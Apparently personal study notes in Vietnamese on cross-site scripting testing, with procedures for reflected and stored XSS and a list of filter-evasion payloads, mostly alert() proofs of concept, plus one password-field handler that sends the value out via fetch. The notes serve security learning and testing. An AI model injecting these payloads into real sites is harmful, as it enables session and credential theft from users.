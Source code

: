 ### ***References***:
[Cross Site Scripting - Payloads All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/XSS%20Injection/)
[Cross-Site Scripting (XSS) Cheat Sheet - 2025 Edition](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
[XSS Filter Evasion - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
# Identification
## Reflect XSS
+ URL param: `https://insecure-website.com/search?term=gift`
1. **Kiểm thử mọi entry point**: mọi tham số trong URL (query, path), body và header.
2. **Gửi giá trị ngẫu nhiên**: mỗi entry point gửi giá trị chữ-số duy nhất (~8 ký tự). (Có thể dùng Burp Intruder để sinh giá trị và grep phản hồi.)
3. **Xác định ngữ cảnh phản chiếu**: xem giá trị xuất hiện trong HTML text, attribute có/không quote, JS string, v.v.
4. **Thử payload ứng viên**: dựa vào ngữ cảnh, chèn payload bằng Burp Repeater, gửi và kiểm tra response. Đặt payload trước/sau giá trị ngẫu nhiên, dùng tìm kiếm để định vị nhanh.
5. **Thử payload thay thế**: nếu payload bị sửa hoặc chặn, thử các biến thể phù hợp với ngữ cảnh và kiểu lọc.
6. **Chạy trên trình duyệt thật**: chuyển PoC sang trình duyệt (dán URL hoặc sửa request qua Proxy) và kiểm tra (ví dụ `alert(document.domain)`).
## Stored XSS

| **Entry points (test tất cả):** | Query string, body (form/json), URL path, HTTP headers,  Kênh ngoại băng thông (email, third-party feeds, uploads…). |
| ------------------------------- | -------------------------------------------------------------------------------------------------------------------- |
| **Exit points:**                | Mọi response trả cho bất kỳ người dùng nào (trang, API, feed, log hiển thị...)                                       |

**Quy trình ngắn:**
1. Ghi list tất cả entry point khả dụng.
2. Với mỗi entry point: gửi **giá trị riêng/duy nhất** (vd 8 ký tự) và **giám sát các response** để tìm reflection.
3. Khi thấy giá trị xuất hiện ở response nào → xác định **ngữ cảnh** (HTML text, attribute, JS string, URL, v.v.).
4. Xác minh **có được lưu (stored)** hay chỉ reflected tạm thời (tham chiếu qua request khác / refresh để kiểm tra).
5. Dựa vào ngữ cảnh, thử payload ứng viên phù hợp (dùng Burp Repeater để chỉnh & kiểm tra).
6. Nếu payload bị sửa/chặn → thử biến thể khác theo ngữ cảnh (HTML-encode, JS-escape, onerror/throw, template literal, v.v.).
7. Khi payload hoạt động trong Repeater → chuyển PoC sang **trình duyệt thật** để xác nhận thực thi (ví dụ `alert(document.domain)`).

> Ưu tiên kiểm tra các chức năng dễ lưu dữ liệu: comment, profile, posts, uploads, admin logs.
> Theo dõi khả năng ghi đè (recent list, cache) — dữ liệu lưu có thể bị thay thế nhanh.

## DOM XSS

# Tricks & Payload

#### Payload phổ biến portswigger
```html
# 1.location.search (hidden param)
&storeId=<script>alert(URLSearchParams(window.location.search))</script>

# 2.vuln in JS framework (angular 1.7.7)
{{constructor.constructor('alert(1)')()}}

# 3.eval('var searchResultsObj = ' + this.responseText);
\"-alert(1)}//

# 4.html.replace('<', '&lt;').replace('>', '&gt;');
<><img src=x onerror=alert()>')

# 5.using resize
<iframe src="/?search=<body onresize=print()>" onload=this.style.width='1%'>

# 6.location.hash
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x

# 7.xss in svg
<svg><animatetransform onbegin=alert(1) attributeName=transform dur=1s>

# 8.in canonical link tag
?<div accesskey='x' onclick='alert(1)'></div>

# 9.escape backslash and single quote
</script><script>alert(1)</script>

# 10. angle brackets and double quotes HTML-encoded and single quotes escaped
\';alert(1)//

# 11. string template literal with backtick
${alert()}

# 12. Making use of HTML-encoding
&apos;-alert(document.domain)-&apos; 

# 13 
<input type=password name=password onchange="if(this.value.length)fetch(...)">

```

## XSS
**1. XSS between HTML tags**
```html
<img src=x onerror=js>
<script>...</script>
<svg>...</svg>
...
```
**2. XSS in HTML tag attributes**
```html
"><script>alert(document.domain)</script> # Đóng tag cũ
" autofocus onfocus=alert(document.domain) x=" # Chèn thêm thuộc tính vào thẻ
<a href="javascript:alert(document.domain)"> # Chèn vào href -> Open redirect
```
**3. XSS in JAVASCRIPT**
###### Terminating the existing script
```html
<script>
  var input = 'controllable data here';
  var csrfElement = document.querySelector('input[name=csrf]');
  var csrfToken = csrfElement ? csrfElement.value : null;
...
</script>
```

```html
</script><img src=1 onerror=alert(document.domain)>
# đóng đoạn script trước chèn payload xss vào sau.
# thẻ html sẽ được load trước thẻ script
```
##### Breaking out of a JavaScript string
```html
'-alert(document.domain)-' 
';alert(document.domain)// # Ex: <script> var s = '\\';alert(1)//';</script>
\"-alert(1)}//
```
##### XSS without parentheses and semi-colons
```html
<script>onerror=alert;throw 1337</script> # Function without parentheses
<script>{onerror=alert}throw 1337</script> # Function without semi-colon 
<script>throw onerror=alert, (console.log('a')), 42, 'x'</script> 
```
##### XSS in JavaScript template literals
```html
${alert(document.domain)} # để ý ``
```

# Real cases
## 1. Open redirect XSS
`javascript::alert()`